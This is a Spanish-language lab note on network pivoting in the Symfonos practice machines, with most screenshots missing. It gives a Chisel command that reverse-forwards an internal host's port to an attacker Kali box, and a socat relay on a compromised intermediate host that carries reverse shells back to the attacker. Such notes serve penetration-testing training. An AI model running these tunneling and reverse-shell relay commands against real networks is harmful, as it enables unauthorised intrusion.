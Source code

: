 [[Lab Pivoting, Tunneling And Port-Forwarding - Synfonos 1-2-3]]
#pivoting 
Tendremos el siguiente escenario:
![[Pasted image 20240615202048.png]]

Chisel es una herramienta de pivoting compatible tanto con máquinas Windows como Linux. Nos permite de forma muy cómoda prácticamente obtener las mismas funciones que SSH (en el aspecto de Port Forwarding).

Tenemos un repositorio oficial para descargar la herramienta:
```bash
https://github.com/jpillora/chisel/releases
```

![[Pasted image 20240615202101.png]]

![[Pasted image 20240615202106.png]]

Nos lo descargamos en nuestra máquina atacante:
![[Pasted image 20240615202118.png]]

![[Pasted image 20240615202122.png]]

Y ahora ejecutamos el servidor con chisel desde nuestra máquina kali para recibir las conexiones:
![[Pasted image 20240615202130.png]]

A continuación, ejecutamos el siguiente comando en la máquina intermedia para indicar que el puerto 80 de la máquina final se convierta en el puerto 5000 de mi máquina atacante:
```bash
./chisel client 192.168.0.37:1234 R:5000:10.10.10.11:80
```

![[Pasted image 20240615202146.png]]

Y entonces ahora nuestro localhost de la máquina kali por el puerto 5000 será el puerto 80 de la máquina final:
![[Pasted image 20240615202153.png]]

Ahora, si queremos conseguir una reverse shell, tenemos que utilizar socat, ya que nosotros podemos ver a la máquina metasploitable, pero sin embargo esta máquina no nos ve a nosotros, por lo que dentro de la máquina intermedia ejecutamos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
Y ahora ya podríamos efectuar cualquier ataque desde la máquina Kali y recibir la conexión desde la máquina final, pasando primero por el puerto 443 de la máquina ubuntu y luego enviando dicha conexión al puerto 443 de la máquina Kali.
